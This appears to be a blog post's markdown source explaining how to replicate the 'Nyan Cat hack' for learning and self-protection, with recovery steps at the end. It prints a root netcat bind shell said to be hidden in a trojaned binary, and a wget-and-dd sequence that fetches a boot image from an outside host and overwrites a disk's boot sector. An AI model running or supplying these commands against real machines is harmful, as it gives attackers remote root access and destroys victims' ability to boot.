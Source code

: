 ```yaml
---
layout: post
title: Nyan Cat Hack - How To
---
```


A writeup of how the Nyan Cat hack works.

After the <a href="/2012/10/01/nyan_story.html">Nyan Cat Hack</a>, I wanted to learn how it was executed to get a better idea of what happened so that I could protect myself. This post is a simple description of how to replicate the hack. This is divided into two parts, the backdoor and the bootloader. Disclaimer: this is meant for education only. Do not illegally hack into other machines.

## The Backdoor

CowCli, the malicious binary, had a simple set of NetCat commands embedded within it that allowed terminal access into the victim’s machine. When CowCli is run, it behaves as intended along with executing the following code on the victim’s computer: This code can be executed stand alone from the command line.

```
sudo rm /etc/alternatives/nc && sudo ln -s /bin/nc.traditional /etc/alternatives/nc
sudo nc -l -p 40 -e /bin/sh 
```

The first command here is replacing the default NetCat with nc.traditional. This command might be optional, though was necessary for me to replicate the attack. Note that on OpenBSD machines, nc.openbsd should be used in place of nc.traditional. The second command is the true backdoor. This tells the victim’s machine to listen for traffic on port 40 and return a shell to the first connection to that port. The returned shell will have privileges equal to that of the NetCat process, so executing the second command with sudo will return a root shell.

Once the above commands have been run on the victim’s machine, the attacker can execute this bit of code:

`nc {victim's local IP address} 40`

This will simply connect to the port that the previous NetCat commands opened. Once executed, you will be able to use the connection as an interactive shell into the victim’s computer. This most likely will only work over a local network. To perform this attack on a remote user, that user’s router would need to be reconfigured so that port 40 traffic is directed to the target machine.

## The Bootloader

Once you have root access to a remote computer, you can do anything you want with it. My attacker chose to overwrite my bootloader with his own bootloader code. The bootloader is a small piece of code that the BIOS executes to boot into an operating system. I recommend that if you wish to replicate this attack, to do so in a virtual machine. This attack uses the dd command, and a mistake here can result in lost data or lock you out of your machine.

To overwrite the bootloader of the victim’s machine with Nyan Cat, follow these steps from the victims machine.

```
wget https://minemu.org/nyanmbr/nyan.mbr
dd if=nyan.mbr of=/dev/sda
```

The first command here is retrieving the Nyan Cat bootloader. The second command is overwriting the first sector of the primary device. The first sector is where the BIOS looks to load an operating system. This command is essentially saying to replace the first X bits of the hard disk with nyan.mbr, where X is the length of nyan.mbr in bits. if=input file, of=output file.

Now, give the machine a restart and check out how it behaves!!

To recover the bootloader, continue on. The first thing we need to do is boot from a LiveCD. For Ubuntu, this is as simple as popping in the disk or .iso file used to install the machine. Reboot the victim’s machine, press the key to open the BIOS menu, and find the option that lets you boot from the CD rom drive. You can either boot into the operating system directly off the CD or sometimes there’s an option to load up a terminal without booting all the way into the OS. Either way, get to a terminal window and follow the rest of the instructions. I learned the next steps here.

```
mkdir /mnt/myroot
sudo mount /dev/sda1 /mnt/myroot
sudo mount --bind /dev /mnt/myroot/dev
sudo mount --bind /proc /mnt/myroot/proc
sudo mount --bind  /sys /mnt/myroot/sys
sudo chroot /mnt/myroot
sudo grub-install /dev/sda
```

These steps are recreating a clean root in your machine. Steps 3,4,5 are copying the LiveCD’s dev, proc, and sys data into a new root. The chroot command locks the user into /mnt/myroot, such that from the user’s perspective /mnt/myroot becomes the root of the file system. Finally, grub-install replaces the nyan bootloader with the grub bootloader, the stock Ubuntu bootloader. After executing these commands, issue another restart on the machine and make sure you boot from disk (instead of the LiveCD again). If performed correctly, this should boot you back into your operating system, with all your data in tact.

Happy hacking!


